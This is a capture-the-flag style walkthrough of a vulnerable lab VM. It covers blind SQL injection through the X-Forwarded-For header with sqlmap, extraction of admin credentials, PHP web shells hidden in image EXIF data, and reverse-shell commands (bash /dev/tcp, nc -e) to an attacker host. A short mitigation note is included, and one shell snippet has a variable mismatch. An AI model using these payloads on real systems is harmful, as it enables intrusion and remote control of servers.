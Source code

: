 # Blind SQLi to Shell II
## _Walkthrough_

The first thing to do is to deploy the iso, I used VMWare, and get the ip (using the command __ifconfig__).



![image](https://user-images.githubusercontent.com/38219437/138444044-8bb3effe-29b2-486c-bc0d-4dc96f89407a.png)


## Recon

### Tecnologies used:

```
$ nmap -sC -sV 192.168.77.128 -p-

-sV check services and versions
-sC script scan
```
  **Output:**
```
80/tcp open  http    nginx 0.7.67
|_http-server-header: nginx/0.7.67
|_http-title: My Photoblog - latest picture

```
```
$ echo -en "GET / HTTP/1.1\r\nHost: 192.168.77.128\r\nConnection: close\r\n\r\n" | netcat 192.168.77.128 80

HTTP/1.1 200 OK
Server: nginx/0.7.67
Date: Thu, 21 Oct 2021 13:40:51 GMT
Content-Type: text/html
Connection: close
X-Powered-By: PHP/5.3.3-7+squeeze15
Content-Length: 1347
```
### Technologies Used


##### NGINX 0.7.67
##### PHP/5.3.3-7+squeeze15


## Attack method

### Blind SQLi

**Manually**

```
X-Forwarded-For:  sqli' or sleep(0) and '0'='0
```

**Using SQLMap**

I use this website to learn more about the different uses of **sqlmap**:
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap

**SQLMap arguments I tried:**
```
$ sqlmap -u "http://192.168.77.128/cat.php?id=*" -p id

$ sqlmap -u "http://192.168.77.128/" --headers "referer:*"

$ sqlmap -u "http://192.168.77.128/" --headers "x-forwarded-for:*"
```

**SQLMAP to find the number of databases and it's names**

```
$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --dbs --dump-all

[*] information_schema
[*] photoblog

$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --tables -D photoblog


Database: photoblog

1. Tables: 4
2. Names: categories, pictures, stats, users

Table: users


$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" -D photoblog -T users --dump

Database: photoblog
Table: users
[1 entry]
+----+-------+---------------------------------------------+
| id | login | password                                    |
+----+-------+---------------------------------------------+
| 1  | admin | 8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) |
+----+-------+---------------------------------------------+
```
**Now that we have the username and the password, we can log in as admin.**

![image](https://user-images.githubusercontent.com/38219437/138444198-b7ffc49e-1a2a-4bee-a545-b7538b5352ec.png)

**After some recon we can note only one point to explore, and gain a reverse shell: upload images feature.**

## Blind SLQi Mitigation

As with regular SQL injection, blind SQL injection attacks can be prevented through the careful use of parameterized queries, which ensure that user input cannot interfere with the structure of the intended SQL query.
Use parametrized queries. Do not concatenate strings in your queries.


![image](https://user-images.githubusercontent.com/38219437/138444141-db3947ae-5757-4e5c-bfbb-19f0aeca7db2.png)

### Upload png file with PHP backdoor

**Things I try without success:**
1. Just uploading a .php file instead of jpg file
2. Tried Case sensitives — pic.PhP also tried pic.php5, pHP5.
3. Bypass uploads rules by intercepting the request and change the content-type to __image/jpeg__ 
(https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

4. Trying double extensions to bypass and upload php file image.jpg.php or image.php.jpg

## Final method

Most of the php web applications use the gd library to resize images. If so, the exif data will be excluded for the image. Fortunately, it was not the case! 

**First we create a php file with a php backdoor inside it:**

```
<?php $cmd=$_GET['c']; system($c); ?>
``` 
or
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.19.178.103/2222 0>&1'");?>.
```
or 
```
<?php

if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

Explanation of the code:

1. First the code checks if there's a **c** parameter in the url;
2. Assigns the content of the parameter **c** to the variable **c**
3. System() is for executing a system command on the server.



**Using exiftool we are going to add a comment with our payload o the image**

```
exiftool "-comment<=file.php" tux.png
```

We are now ready to upload our __image__ and generate a reverse shell.


## Now you can upload the file. After the upload you can trigger the backdoor usin this for the first two:

```
(...).png/c.php
```
### And this one for the third:

```
(...).png/c.php?c=ls
```

__We need to add cmd.php, otherwise the photo is displayed instead of the code we want__

To create a reverse shell we use the following code instead of __ls__:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional

Attackers machine:
```
$ nc -lvp 1234
```

Command c=
```
nc -e /bin/sh <attacker_ip> <nc_listener_port>
```
